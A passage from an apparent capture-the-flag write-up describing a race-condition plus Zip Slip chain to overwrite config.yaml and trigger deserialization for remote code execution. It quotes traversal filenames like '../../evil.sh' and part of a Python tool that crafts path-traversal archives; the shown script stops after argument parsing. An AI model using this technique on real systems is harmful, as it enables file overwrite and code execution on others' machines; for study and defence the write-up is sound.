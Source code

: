 These two funcs have a time window , which means that we can consider Race Condition Attack.

We need another vuln , arbitrary file write to cooperate.

If we can overwrite the config.yaml file in the window . The `load()` may exec with dirty data , then Deserialization happened ,  RCE to getflag!

So , how to make a malicious archive?

> The vulnerability is exploited using a specially crafted archive that holds **directory traversal** filenames (e.g. `../../evil.sh`).The Zip Slip vulnerability can affect numerous archive formats, including `tar`, `jar`, `war`, `cpio`, `apk`, `rar` and `7z`.

For the reason that  the filename `../../config.yaml` is illegal in System . We should modify the archive directly with some hexeditor, like 01editor. Or you can use these script to make it.

```python
#!/usr/bin/env python
# Author: Alamot
import os
import sys
import zipfile
import tarfile
import argparse


mode = {".zip":"a", ".jar":"a", ".war":"a", ".apk":"a",
        ".tar":"a", ".gz":"w:gz", ".tgz":"w:gz", ".bz2":"w:bz2"}


def make_traversal_path(path, level=0, os="unix"):
    if os == "win":
        traversal = ".." + "\\"
        fullpath = traversal*level + path
        return fullpath.replace('/', '\\').replace('\\\\', '\\') 
    else:
        traversal = ".." + "/"
        fullpath = traversal*level + path
        return fullpath.replace('\\', '/').replace('//', '/')


def main():
    parser = argparse.ArgumentParser(description="A tool to create archives " +
    "containing path-traversal filenames (e.g. '../../etc/passwd').")
    parser.add_argument("file_to_add", help="File to add in the archive.")
    parser.add_argument("archive",
                        help="Archive filename (Supported extensions are " +
                             ".zip, .jar, .war, .apk, " +
                             ".tar, .tar.bz2, .tar.gz, .tgz).")
    parser.add_argument("-l", "--levels", dest="levels", default="0-10",
                        help="A single level or a range of levels to " +
                        "traverse (default: %(default)s).")
    parser.add_argument("-o", "--os", dest="os", default="unix",
                        help="Target OS [unix|win] (default: %(default)s).")
    parser.add_argument("-p", "--path", dest="path", default="",
                        help="Path to include (e.g. 'etc/').")
    args = parser.parse_args()

    if not os.path.exists(args.file_to_add):
        sys.exit("Cannot find input file: " + args.file_to_add)

    name, ext = os.path.splitext(args.archive)
    if not ext:
        sys.exit("Please specify a supported extention (zip, jar, " +
                 "tar, tar.bz2, tar.gz, tgz) in the archive filename: " +
                 args.archive)
```